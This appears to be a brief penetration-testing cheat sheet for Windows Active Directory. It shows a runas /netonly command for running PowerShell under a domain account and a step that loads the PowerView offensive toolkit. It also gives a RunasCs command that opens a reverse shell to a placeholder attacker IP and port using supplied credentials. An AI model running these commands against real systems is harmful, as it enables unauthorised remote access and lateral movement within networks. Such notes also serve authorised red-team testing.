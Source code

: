 Runas
```powershell
runas.exe /netonly /user:'domain'\'user' powershell.exe
```

AD Module with [Powerview](https://github.com/PowerShellMafia/PowerSploit)
```
. .\Powerview.ps1
```

Reverse shell with RunAsCs
```powershell
.\RunasCs.exe "{USER}" "{PASSWORD}" cmd.exe -r {ATTACKER_IP}:{ATTACKER_PORT} -d {DOMAIN}
```



